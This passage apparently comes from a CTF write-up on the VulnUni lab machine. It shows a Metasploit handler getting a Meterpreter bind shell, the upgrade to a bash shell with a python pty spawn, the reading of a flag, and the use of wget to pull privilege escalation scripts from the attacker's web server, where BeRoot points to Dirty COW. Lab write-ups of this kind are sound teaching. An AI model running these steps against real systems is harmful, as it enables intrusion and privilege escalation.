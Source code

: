 I set the necessary LPORT, LHOST, RHOST, and payload options. Before I launched the handler, I browsed the payload on the target website to initiate the bind shell. Once the payload loaded, I ran the handler and received the shell.

```bash
root@kali$ msf5 >

msf5 exploit(multi/handler) > run

[*] Started bind TCP handler against 192.168.8.132:4448
[*] Sending stage (38288 bytes) to 192.168.8.132
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.8.132:4448) at 2020-05-12 00:43:47 -0400
```

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni8.png">
    </div>
</div>
<div class="caption">
    Receiving a shell on the metasploit multi/handler 
</div>    

I spent some time running through meterpreter enumeration scripts to gather more details on the target. Once I gathered enough information, I dropped into a shell to run some linux privilege escalations scripts. Using the shell command, I dropped into a low interactive shell. To upgrade, I ran the following exports and used a simple python script to open up a bash shell.

```bash
root@kali$ meterpreter > shell
Process 2181 created.
Channel 1 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/root@kali$
```

With a better shell, I did some manual navigating on the target and came across a flag in the vulnuni/home directory.

```bash
www-data@vulnuni$ ls
ls
Desktop    Downloads  Pictures  Templates  examples.desktop
Documents  Music      Public    Videos     flag.txt
www-data@vulnuni:/home/vulnuniwww-data@vulnuni$ cat flag.txt
cat flag.txt
68fc668278d9b0d6c3b9dc100bee181e
```  

Next, I opened up a webserver on my Kali linux machine to easily transfer some privilege escalation scripts to the target. I copied these scripts from my redteam-apache-toolkit project to my webserver at /var/www/html . I used wget on the target to transfer the scripts into the /tmp folder. One of the privilege escalation/ enumeration scripts I ran was BeRoot. The output showed that this target was vulnerable to the dirty cow linux kernel privilege escalation exploit.
